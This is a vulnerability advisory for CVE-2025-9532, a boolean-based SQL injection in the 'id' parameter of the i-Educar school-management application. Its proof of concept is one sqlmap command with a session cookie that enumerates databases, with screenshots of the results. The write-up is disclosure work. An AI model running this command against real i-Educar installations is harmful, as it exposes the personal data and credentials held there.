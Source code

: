 ## CVE-2025-9532: SQL Injection (Boolean-Based) Vulnerability in `id` Parameter on `/RegraAvaliacao/view?id=[id]` Endpoint

![](https://github.com/KarinaGante/KG-Sec/raw/main/CVEs/images/arts/sqlInjectionBanner.png)

[![](https://img.shields.io/badge/🌸-CVE--2025--9532-dd53bc)](https://www.cve.org/CVERecord?id=CVE-2025-9532) ![](https://img.shields.io/badge/i--Educar-SQL_Injection-291b3e) [![](https://img.shields.io/badge/💜-Found_by:_Karina_Gante-AA07FF)](https://karinagante.github.io/) ![](https://img.shields.io/badge/%F0%9F%9A%A8-Critical_Severity-ff0000) [![](https://img.shields.io/badge/🧬-Member_of:_CVE--Hunters-6407ab)](https://www.cvehunters.com/)

### 📝 Summary

<p align="justify">A SQL Injection vulnerability was identified in the <code>RegraAvaliacao/view?id=[id]</code> endpoint of the i-Educar application, specifically in the <code>id</code> parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.</p>

---

### 🔎 Details

➤ Vulnerable Endpoint: `RegraAvaliacao/view?id=[id]`

➤ Parameter: `id`

<p align="justify">The application fails to properly validate and sanitize user input in the <code>id</code> parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.</p>

---

### 📚 PoC

#### ➤ Step by Step:

<p align="justify">Install sqlmap tool and type the command below:</p>

##

#### ➤ Payload:

````html
sqlmap -u "http://localhost:8086/module/RegraAvaliacao/view?id=1" -p id --cookie="i_educar_session=qEk2wbjxS5IbECJGqnIa0dbmIyI3XIsXqm3WSh6K" \ --dbms=PostgreSQL --technique=B --dbs --batch
````

##

<p align="justify">sqlmap begins to test a lot of SQLi in <code>id</code> parameter until find a <code>boolean-based blind</code>:</p>

![](https://github.com/KarinaGante/KG-Sec/raw/main/CVEs/images/SQLi6.png)

##

<p align="justify">Some time after, sqlmap will list of available databases confirming that SQLi:</p>

![](https://github.com/KarinaGante/KG-Sec/raw/main/CVEs/images/SQLi7.png)

##

<p align="justify">Still using sqlmap and discovering tables and columns it becomes possible to enumerate this information:</p>

![](https://github.com/KarinaGante/KG-Sec/raw/main/CVEs/images/SQLi8.png)

---

### ⚠️ Impact

##

<p align="justify">
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Unauthorized data access: Reading sensitive information such as credentials, personal data, or configuration details.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Database enumeration: Extracting database schema, tables, and column details.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Data manipulation: Adding, modifying, or deleting database records.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Stealing credentials: Attackers can steal a user's credentials.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Denial of Service (DoS): Using time-based queries to impact system availability.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Potential escalation to RCE: If combined with other vulnerabilities and specific database features.
</p>

---

### 🔗 References

![](https://github.com/KarinaGante/KG-Sec/raw/main/CVEs/images/logos/cve.png) ➤ [https://www.cve.org/CVERecord?id=CVE-2025-9532](https://www.cve.org/CVERecord?id=CVE-2025-9532)

![](https://github.com/KarinaGante/KG-Sec/raw/main/CVEs/images/logos/vulDB.png)➤ [https://vuldb.com/?id.321551](https://vuldb.com/?id.321551)

---

### 🕵🏻‍♀️ Finder

*Discovered with💜 by [Karina Gante](https://karinagante.github.io/).* 

[![LinkedIn](https://skillicons.dev/icons?i=linkedin&theme=dark)](https://www.linkedin.com/in/karina-gante/)
[![GitHub](https://skillicons.dev/icons?i=github&theme=dark)](https://www.github.com/KarinaGante/)
[![gmail](https://skillicons.dev/icons?i=gmail&theme=dark)](mailto:karina.gante1@gmail.com)
[![Instagram](https://skillicons.dev/icons?i=instagram&theme=dark)](https://www.instagram.com/karinovisk02/)

##

*Official Member of [CVE-Hunters](https://www.cvehunters.com/)🏹*
